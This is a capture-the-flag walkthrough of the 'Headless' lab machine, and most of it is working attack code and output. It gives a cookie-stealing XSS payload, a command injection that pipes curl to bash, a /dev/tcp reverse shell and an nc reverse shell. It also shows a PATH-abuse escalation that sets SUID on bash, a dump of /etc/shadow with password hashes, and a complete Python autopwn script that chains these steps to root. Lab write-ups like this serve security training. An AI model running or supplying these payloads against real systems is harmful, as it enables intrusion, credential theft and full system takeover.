





## Summary

The box starts with a custom `web application` on port `5000/TCP` developed with `Python`. It blocks various `Server-Side Template Injection (SSTI)` and `Cross-Site Scripting (XSS)` payloads. But `Cross-Site Scripting (XSS)` can be achieved anyways when injecting the payload in the `User-Agent`. With a `cookie stealing payload` a `privileged cookie` can be obtained to access the `/dashboard` endpoint which can be found by using `directory busting`. On the dashboard a report based on a specific date can be created. Intercepting the request and simple `command injection` leads to `Remote Code Execution (RCE)` on the box and to a `reverse shell` as `dvir`. Since the application runs in the context of the user, the `user.txt` can be found in his `home directory`. For privilege escalation the way to go is to abuse the `syscheck` script in `/usr/bin/` which `dvir` can execute with `sudo` permissions. The scripts make use of a file called `initdb.sh` and not using an `absolute path`. This leads to `path abuse` and to `code execution` as root. To achieve this, a malicious `initdb.sh` needs to be created in any path where the command `sudo /usr/bin/syscheck` is getting executed from.

## Table of Contents

- [Reconnaissance](#reconnaissance)
  - [Port Scanning](#port-scanning)
  - [Enumeration of Port 5000/TCP](#enumeration-of-port-5000TCP)
  - [Directory Busting](#directory-busting)
- [Foothold](#foothold)
  - [Using Cross-Site Scripting (XSS) for Cookie Stealing](#using-cross-site-scripting-xss-for-cookie-stealing)
  - [Command Injection](#command-injection)
  - [Alternative: Admin Cookie Bypass](#alternative-admin-cookie-bypass)
- [Stabilizing Shell](#stabilizing-shell)
- [Enumeration](#enumeration)
- [user.txt](#usertxt)
- [Privilege Escalation](#privilege-escalation)
  - [Path Abusing](#path-abusing)
- [root.txt](#roottxt)
- [Post Exploitation](#post-exploitation)
  - [Autopwn Script](#autopwn-script)

## Reconnaissance

### Port Scanning

The box had some sort of `Web Application Firewall (WAF)` or `rate limiting` implemented which why we started just with a basic `Nmap` scan.

```c
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.237.154
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-23 15:02 EDT
Nmap scan report for 10.129.237.154
Host is up (0.089s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 23 Mar 2024 19:02:34 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/23%Time=65FF274B%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,BE1,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/2\.2\.2\
SF:x20Python/3\.11\.2\r\nDate:\x20Sat,\x2023\x20Mar\x202024\x2019:02:34\x2
SF:0GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:
SF:\x202799\r\nSet-Cookie:\x20is_admin=InVzZXIi\.uAlmXlTvm8vyihjNaPDWnvB_Z
SF:fs;\x20Path=/\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\
SF:x20lang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\
SF:x20\x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-wid
SF:th,\x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Under\x20Construct
SF:ion</title>\n\x20\x20\x20\x20<style>\n\x20\x20\x20\x20\x20\x20\x20\x20b
SF:ody\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20font-family:\
SF:x20'Arial',\x20sans-serif;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20background-color:\x20#f7f7f7;\n\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20margin:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20padding:\x200;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20di
SF:splay:\x20flex;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20justif
SF:y-content:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:align-items:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20height:\x20100vh;\n\x20\x20\x20\x20\x20\x20\x20\x20}\n\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\.container\x20{\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20text-align:\x20center;\n\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20background-color:\x20#fff;\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20border-radius:\x2010px;\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20box-shadow:\x200px\x200px\x2020px\x20rgba\(0,\x20
SF:0,\x200,\x200\.2\);\n\x20\x20\x20\x20\x20")%r(RTSPRequest,16C,"<!DOCTYP
SF:E\x20HTML>\n<html\x20lang=\"en\">\n\x20\x20\x20\x20<head>\n\x20\x20\x20
SF:\x20\x20\x20\x20\x20<meta\x20charset=\"utf-8\">\n\x20\x20\x20\x20\x20\x
SF:20\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x
SF:20\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20resp
SF:onse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20vers
SF:ion\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\
SF:x20code\x20explanation:\x20400\x20-\x20Bad\x20request\x20syntax\x20or\x
SF:20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html>\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.69 seconds
```

### Enumeration of Port 5000/TCP

On port `5000/TCP` a custom web application was running. The application was written in `Python` since we found the header for `Werkzeug[2.2.2]`.

- [http://10.129.237.154:5000/](http://10.129.237.154:5000/)

```c
┌──(kali㉿kali)-[~]
└─$ whatweb http://10.129.237.154:5000/
http://10.129.237.154:5000/ [200 OK] Cookies[is_admin], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/2.2.2 Python/3.11.2], IP[10.129.237.154], Python[3.11.2], Script, Title[Under Construction], Werkzeug[2.2.2]
```





### Directory Busting

Since it is always good to have something running in the background, we checked for other useful `endpoints` on port `5000/TCP` and found `dashboard` behind a `HTTP 401`.

```c
┌──(kali㉿kali)-[~]
└─$ dirsearch -u http://10.129.237.154:5000

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_10.129.237.154_5000/_24-03-23_17-50-44.txt

Target: http://10.129.237.154:5000/

[17:50:44] Starting: 
[17:51:27] 401 -  317B  - /dashboard                                        
[17:52:12] 200 -    2KB - /support                                          

Task Completed
```

## Foothold

### Using Cross-Site Scripting (XSS) for Cookie Stealing

We wanted to access the `/dashboard` endpoint but probably needed a `cookie` for it. We started testing for `Server-Side Template Injection (SSTI)` since the application was running with `Flask` and we also tested for `Cross-Site Scripting (XSS)`.

Both ended up denied by the application.





As next step we used a `cookie stealing XSS payload` and injected it to the `User-Agent` of the `HTTP request` because it got reflected in earlier tests with `<h1>TEST</h1>` in the error message output and we also put the payload into the `message box`.

```c
<script>new Image().src='http://10.10.14.141/p?c='+document.cookie</script>
```

```c
POST /support HTTP/1.1
Host: 10.129.237.154:5000
User-Agent: <script>new Image().src='http://10.10.14.141/p?c='+document.cookie</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 188
Origin: http://10.129.237.154:5000
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

fname=foobar&lname=foobar&email=foobar%40foobar.local&phone=1234567890&message=%3Cscript%3Enew+Image%28%29.src%3D%27http%3A%2F%2F10.10.14.141%2Fp%3Fc%3D%27%2Bdocument.cookie%3C%2Fscript%3E


```

We forwarded the message and got another response from the server, which we also forwarded.

```c
GET /p?c=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1
Host: 10.10.14.141
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: image/avif,image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/
Sec-GPC: 1


```

After a minute we received `two callbacks` on our local `web server`. The second one was the cookie of a user which allowed us to access the `/dashboard` endpoint.

```c
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.141 - - [23/Mar/2024 15:19:07] code 404, message File not found
10.10.14.141 - - [23/Mar/2024 15:19:07] "GET /p?c=is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs HTTP/1.1" 404 -
10.129.237.154 - - [23/Mar/2024 15:19:23] code 404, message File not found
10.129.237.154 - - [23/Mar/2024 15:19:23] "GET /p?c=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

### Command Injection

On the dashboard we only had the option to generate a report based on a specific date.



We prepared our `staged payload` and intercepted the request with `Burp Suite` to inject our command.

#### Staged Payload

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ cat x
bash -c '/bin/bash -i >& /dev/tcp/10.10.14.141/9001 0>&1'
```

#### Command Injection Payload

```c
;curl 10.10.14.141/x|bash
```

#### Execution

```c
POST /dashboard HTTP/1.1
Host: 10.129.237.154:5000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.129.237.154:5000
DNT: 1
Connection: close
Referer: http://10.129.237.154:5000/dashboard
Cookie: is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

date=;curl 10.10.14.141/x|bash
```

As a result we received a callback.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.14.141] from (UNKNOWN) [10.129.237.154] 36348
bash: cannot set terminal process group (1158): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$
```

### Alternative: Admin Cookie Bypass

`Crow` provided a nice `all-in-one-solution` to completely skip the step of getting the `admin cookie`.
 
```c
<script>fetch("/dashboard",{    headers: {      'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',      'Content-Type': 'application/x-www-form-urlencoded'    },    method: "POST",    body: 'date=;nc 10.10.14.141 1234 -c bash'})</script>
```

## Stabilizing Shell

Business as usual.

```c
dvir@headless:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
dvir@headless:~/app$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

dvir@headless:~/app$ 
dvir@headless:~/app$ export XTERM=xterm
dvir@headless:~/app$
```

## Enumeration

We did some basic enumeration and saw that our user had a `home directory`, which is not unusual for setups in which a `python web application` is used, because they mostly run in the context of a user.

```c
dvir@headless:~/app$ id
uid=1000(dvir) gid=1000(dvir) groups=1000(dvir),100(users)
```

```c
dvir@headless:~/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
tss:x:100:107:TPM software stack,,,:/var/lib/tpm:/bin/false
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:101:108::/nonexistent:/usr/sbin/nologin
usbmux:x:102:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
avahi:x:104:112:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
speech-dispatcher:x:105:29:Speech Dispatcher,,,:/run/speech-dispatcher:/bin/false
fwupd-refresh:x:106:115:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
saned:x:107:117::/var/lib/saned:/usr/sbin/nologin
geoclue:x:108:118::/var/lib/geoclue:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
rtkit:x:109:119:RealtimeKit,,,:/proc:/usr/sbin/nologin
colord:x:110:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
dvir:x:1000:1000:dvir,,,:/home/dvir:/bin/bash
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
_laurel:x:999:994::/var/log/laurel:/bin/false
```

## user.txt

And therefore we got our `user.txt`.

```c
dvir@headless:~$ cat user.txt 
d3ea03d46c959ab1034b32b6a05dc00d
```

## Privilege Escalation

The user was able to execute a `custom script` called `syscheck` with `sudo` permissions.

```c
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```

### Path Abusing

A closer look to the script revealed the vulnerability.

```c
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0
```

The script showed that `initdb.sh` was not using an `absolute path` which could be abused by placing a malicious version of it in the path where `sudo /usr/bin/syscheck` will be executed from.

```c
<--- CUT FOR BREVITY --->
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
<--- CUT FOR BREVITY --->
```

I prepared my `malicious initdb.sh` locally since I was to tired to fuck around with `vi`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Headless/serve]
└─$ cat initdb.sh 
#!/bin/bash
chmod u+s /bin/bash
```

```c
dvir@headless:~$ wget http://10.10.14.141/initdb.sh
--2024-03-23 21:27:36--  http://10.10.14.141/initdb.sh
Connecting to 10.10.14.141:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 32 [text/x-sh]
Saving to: ‘initdb.sh’

initdb.sh           100%[===================>]      32  --.-KB/s    in 0s      

2024-03-23 21:27:36 (3.16 MB/s) - ‘initdb.sh’ saved [32/32]
```

We made it executable.

```c
dvir@headless:~$ chmod +x initdb.sh
```

And after we fired the script, the `SUID` bit got set on `/bin/bash`.

```c
dvir@headless:~$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.1G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
```

## root.txt

```c
bash-5.2# cat /root/root.txt
793fa1042a50932dc44ab833b34acc2d
```

## Post Exploitation

```c
bash-5.2# cat /etc/shadow
root:$y$j9T$2cy/WxPggISXkBDRmZbL10$0w8yfYfo92xIpj.Qu7zcpzqjLInUcI26SaM2l0IRS.7:19737:0:99999:7:::
daemon:*:19609:0:99999:7:::
bin:*:19609:0:99999:7:::
sys:*:19609:0:99999:7:::
sync:*:19609:0:99999:7:::
games:*:19609:0:99999:7:::
man:*:19609:0:99999:7:::
lp:*:19609:0:99999:7:::
mail:*:19609:0:99999:7:::
news:*:19609:0:99999:7:::
uucp:*:19609:0:99999:7:::
proxy:*:19609:0:99999:7:::
www-data:*:19609:0:99999:7:::
backup:*:19609:0:99999:7:::
list:*:19609:0:99999:7:::
irc:*:19609:0:99999:7:::
_apt:*:19609:0:99999:7:::
nobody:*:19609:0:99999:7:::
systemd-network:!*:19609::::::
tss:!:19609::::::
systemd-timesync:!*:19609::::::
messagebus:!:19609::::::
usbmux:!:19609::::::
dnsmasq:!:19609::::::
avahi:!:19609::::::
speech-dispatcher:!:19609::::::
fwupd-refresh:!:19609::::::
saned:!:19609::::::
geoclue:!:19609::::::
polkitd:!*:19609::::::
rtkit:!:19609::::::
colord:!:19609::::::
dvir:$y$j9T$IKU310jZ./br3hMhSpYSH0$IbCr4LIWNnOd76D2ObQYiNOCmGX4ZI7DTnKjbs8gXe9:19610:0:99999:7:::
sshd:!:19610::::::
_laurel:!:19769::::::
```

### Autopwn Script

`Crow` and `Yeeb` went down the lane of creating an `autopwn script` lol and there it is!

```c
#!/usr/bin/python3
import requests
import base64
import argparse
from pwn import *

parser = argparse.ArgumentParser(description="Autopwn Headless :-)")

parser.add_argument('--rhost', required=True, help='Remote host IP')
parser.add_argument('--lhost', required=True, help='Local host IP (Your IP)')
parser.add_argument('--lport', type=int, required=True, help='Local port (Your listening port)')

args = parser.parse_args()

rhost = args.rhost
lhost = args.lhost
lport = args.lport

log.info(f"Listening on port {lport}...")
listener = listen(lport)

cmd = f'cd /dev/shm ; echo "nc {lhost} {lport} -e /bin/bash" > initdb.sh ; chmod 777 initdb.sh ; sudo /usr/bin/syscheck'

encoded_cmd = base64.b64encode(cmd.encode()).decode("utf-8")

payload = f'echo "{encoded_cmd}" | base64 -d | bash'

payload = "<script>fetch('/dashboard',{ headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, method: 'POST', body: 'date=; "+payload+" '})</script>"

headers = {
    'User-Agent': payload,
    'Content-Type': 'application/x-www-form-urlencoded'
}
data = {
    'fname': 'test',
    'lname': 'test',
    'email': 'test@example.com',
    'phone': '123',
    'message': '<script>test</script>',
}

try:
    response = requests.post(f'http://{rhost}:5000/support', headers=headers, data=data, verify=False)
    print("Payload delivered. Wait for the admin bot to trigger the XSS...")
except requests.exceptions.RequestException as e:
    print(f"Failed to deliver payload: {e}")

listener.wait_for_connection()
log.success("Reverse shell received!")

listener.sendline('cat /home/dvir/user.txt')
log.info("User flag:  /home/dvir/user.txt:")
print(listener.recvline(timeout=1).decode())

listener.sendline('cat /root/root.txt')
log.info("Root flag: /root/root.txt:")
print(listener.recvline(timeout=1).decode())

listener.interactive()
```

```c
┌──(kalikali)-[~/ctf/htb/machines/headless]
└─$ python3 autopwn.py --lhost 10.10.14.43 --lport 6969 --rhost 10.129.38.172
[*] Listening on port 6969...
[+] Trying to bind to :: on port 6969: Done
[+] Waiting for connections on :::6969: Got connection from ::ffff:10.129.38.172 on port 35826
Payload delivered. Wait for the admin bot to trigger the XSS...
[+] Reverse shell received!
[*] User flag:  /home/dvir/user.txt:
3858f62230ac3c915f300c664312c63f

[*] Root flag: /root/root.txt:
f5bdbb9eeefac105ebbdd588739f5fd9

[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```
